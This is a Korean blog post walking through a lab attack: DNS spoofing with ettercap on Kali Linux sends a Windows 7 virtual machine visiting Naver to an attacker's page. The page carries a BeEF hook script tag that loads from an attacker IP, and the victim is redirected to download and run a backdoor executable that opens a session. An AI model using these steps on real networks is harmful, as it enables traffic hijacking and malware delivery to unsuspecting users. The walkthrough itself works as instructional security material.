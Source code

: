```yaml
---
layout: post
cover: 'assets/images/cover6.jpg'
title:  DNS Spoofing
date:   2017-07-26 10:52:01
tags: hacking
subclass: 'Dns_spoofing'
categories: 'pjya0321'
navigation: True
logo: 'assets/images/ghost.png'
---
```



## 	
DNS스푸핑을 통한 악성코드 배포
-----

크게 두 단계로 나누면  
1.내장툴 ettercap 을 사용해서 DNS스푸핑 공격을 한다.  
2.beef를 사용해서 백도어가 다운되게 리다이렉션 한다.  

![1](assets/postimage/DNS1.png)

etter.dns 파일을 위와같이 수정해준다.  

![2](assets/postimage/DNS2.png)

아파치서버를 실행시킨다.  

![3](assets/postimage/DNS3.png)

칼리리눅스 내장툴인 ettercap 을 실행시킨다.  

1. eth0을 잡고 호스트를 스캔한다.  
2. 게이트웨이를 타겟1에/ 공격대상을 타겟2로 설정해준다.  
3. ARP 포지셔닝에서 Sniff remote connection을 체크한다.  
4. 플러그인에서 dns_spoof 를 설정한다.  

![4](assets/postimage/DNS4.png)

공격대상인 윈7 가상환경에서 네이버에 접속하면 미리 만들어둔  
/var/www/html 경로의 index.html 의 내용이 연결된다.  

![5](assets/postimage/DNS5.png)

Beef 서버를 실행시키고. Hook URL을 위에 연결된 index.html에 넣어준다.  

script src="http://192.168.254.129:3000/hook.js"type="text/javascript"  

![6](assets/postimage/DNS6.png)

/var/www/html 경로에 악성백도어를 저장하고,  
UI패널을 열어서 (id/pw = beef/beef) 로그인을 한 뒤,리다이렉션 주소에 악성백도어 파일명.확장자명 을 입력한다.  
그리고 적용시킨다.  

![7](assets/postimage/DNS7.png)

윈도우7 화면에는 kangol.exe 파일이 다운로드가 되었다.  
(중간에 네이버처럼 보이도록 연결될 html을 수정했다)  

![8](assets/postimage/DNS8.png)


윈도우7에서 다운받은 백도어를 실행시키면 칼리에서 세션이 열린것을 확인 할 수 있다.  



